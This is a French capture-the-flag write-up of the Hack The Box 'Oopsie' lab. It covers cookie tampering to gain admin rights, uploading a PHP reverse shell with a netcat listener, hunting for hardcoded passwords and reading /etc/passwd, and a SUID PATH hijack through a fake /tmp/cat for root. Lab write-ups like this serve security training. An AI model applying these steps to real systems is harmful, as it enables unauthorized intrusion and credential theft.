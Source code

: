 ## Lab Title: Oopsie
- Date: 2025-09-24
- Duration: ~120 minutes

### Platform: HTB – Starting Point > Tier 2o

### 1. Scenario Summary
1. Le site web avec `disclosure vulnerabilité` >> la modification (manipulation) de `cookie`
2. `Lateral Movement` avec l'utilisateur et chercher son groupe et trouver le binaire avec **SUID** privilège.
3. Tout le monde peut exécuter ce binaire avec les privilèges du `propriétaire` (souvent: root)
4. La vulnerabilité avec le programme: `cat` sans chemin absolu est exploité.
5. Voilà

### 2. Findings
1. Pour intercepter le `trafic Web` , on peut utiliser l'outil: `Proxy` de `Burp Suite`

**Utilisant Web Proxies:**
2. Pour ça, j'ai utilisé l'outil: `gobuster` mais pas efficace:
    - `gobuster dir -u http://$ip -w /usr/share/seclists/.... -x txt,php -o output_file`

    - J'ai dû utiliser l'autre methode:
        - La configuration propre de `Proxy` dans `Firefox`: `127.0.0.1` et port `8080`
        - Pour cette connexion, j'ai utilisé `Burp Suite` pour analyser tous les trafics
        - Désactiver l'interception dans `Burp Suite`
        - J'ai trouvé l'information interresantes: sous le colonne: **Target**:
            - `/cdn-cgi/login/script.js`  >> La page de `Login`
    - **Il y a Uploads** page: c'est intéressant pour nous
    - Pour avoir l'accès au **Uploads** >> on a besoin de privilèges d' `Super Admin`:

3. Le **cookie** >> Les données de l'utilisateur stockées par le `serveur Web` dans le `Browser`
    - Dans le Browser `Mozilla Firefox`, c'est possible de voir et modifier les `cookies` avec `les outils de Développeur`
    - `Right Click` >> choisir `Inspect (Q)` dans la certaine page.
    - `Storage` où les cookies sont stockées

4. On a trouvé que: on peut faire l'enumeration avec `id`
    - `http://10.129.54.230/cdn-cgi/login/admin.php?content=accounts&id=2` >> rien
    - `http://10.129.54.230/cdn-cgi/login/admin.php?content=accounts&id=1` >> **les données d'Admin**
    ```code
        Access ID	Name	Email
            34322	admin	admin@megacorp.com
    ```
    - Après, j'ai changé les info dans le `cookie`: `role >> admin` et `user >> 34322`
    - Maintenant, on a les privilèges de l'Admin: et on peut faire `uploads`

**Foothold:**
5. On doit préparer le fichier: `php reverse shell` qu'on peut trouver `/usr/share/webshells`
    - On sélectionne: `php-reverse-shell.php` >> ici on a changé l'IP et port de mon machine.
    - Après, on a téléchargé ce fichier
    - Alors, maintenant, on doit savoir où est le fichier exactement

    - Pour ça, on doit utiliser l'outil: `gobuster`:
        - `gobuster dir -u http://10.129.54.230 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php`
        - L'outil: `gobuster` a montré qu'il y a un dossier: **/uploads** >> c'est confirmé

6. Quand, on a essayé d'ouvrir la page: `http://10.129.54.230/uploads` >> c'est interdit pour nous
    - Maintenant, on fait: `nc -lvnp 5642` pour son `php-reverse-shell.php` >> **NetCat Listener**
    - Pour faire une demande, on utilise: `http://$ip/uploads/php-reverse-shell.php`
    - On a obtenu le `reverse shell`  >> pour obtenir le meilleur shell >> on fait: `python3 -c 'import.pty;pty.spawn("/bin/bash")`

**Lateral Movement:**
7. Quand on exécuté `whoami` >> on a trouvé que: l'utilisateur: `www-data` >> ce ne suffit pas pour nous pour faire beacoup de choses:
    - Dans cet emplacement: `/var/www/html/cdi-cgn/login` on a trouvé les fichier et donc on doir rechercher l'autre `passwords`:
        - `cat * | grep -i passw*`
        ```code
            if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
            <input type="password" name="password" placeholder="Password" />
        ```
        - On a trouvé le mot de passe: `MEGACORP_4dm1n!!`
    - Pour trouver quelqu'un l'utilisateur: on a vérifié `/etc/passwd` >> on a trouvé l'utilisateur: `robert`
    - Mais, le mot de passe: `MEGACORP_4dm1n!!` n'est pas le sien, `robert`

    - Quand, on a vérifié `db.php` >> on a trouvé:
    ```code
        <?php
        $conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
        ?>
    ```
    - Voilà, le mot de passe:`M3g4C0rpUs3r!` pour l'utilisateur: `robert`

**Privelege Escalation:**
8. Quand on a vérifié: `id`: on a trouvé que: l'utilisateur `robert` est une partie du group: `bugtracker`
    - Après, on doit faire quelque de chose: `find / -group bugtracker 2>/dev/null`
        - Avec cette commande >> on analysé si'il y quelque `binary` dans ce group: `bugtracker`
        - Et on a trouvé cela: `/usr/bin/bugtracker`
        - On doit vérifier les privilèges de ce binary: `ls -la`
            - `-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker`
            - Il a **s** drapeau: **setuid >> SUID** >> ça veut dire que le propriétaire du fichier peut exécuter:
            - Le propriétaire est `root`

9. SUID >> `Set Owner User ID`

10. `cat` >> binary est utilisé mais n'est pas specifié, donc on peut changer son comportement
    - On a créé le `cat` dans le `tmp` dossier `/tmp/cat` >> son contenu est `/bin/sh` >> faire le executable: `chmod +x cat`
    - `export PATH=/tmp:$PATH` >> mettre a jour >> `$PATH`

11. Pour `user flag` >> `/home/robert/user.txt` >> Voilà

12. On a exécuté la commande d'emplacement: `/tmp`: `bugtracker` >> Voilà >> on a obtenu les privilèges de l'utilisateur: `root`
    - Le drapeau est dans `/root` >> `root.txt`

## 3. Idea
- Le binary `cat` est utilisé:
    ```code
        Un binaire SUID s’exécute avec les droits de son propriétaire (souvent root).
        S’il appelle `cat` sans chemin absolu, l’OS le cherche dans `$PATH`.
        En plaçant dans `/tmp` un `cat` malveillant qui lance `/bin/sh` et en mettant `/tmp` en tête de `$PATH`,
        le SUID exécute ce `cat` — et donc ouvre un shell avec les droits root.
    ```
- Voilà, ça y est, c'est fini: `https://labs.hackthebox.com/achievement/machine/2118023/288`
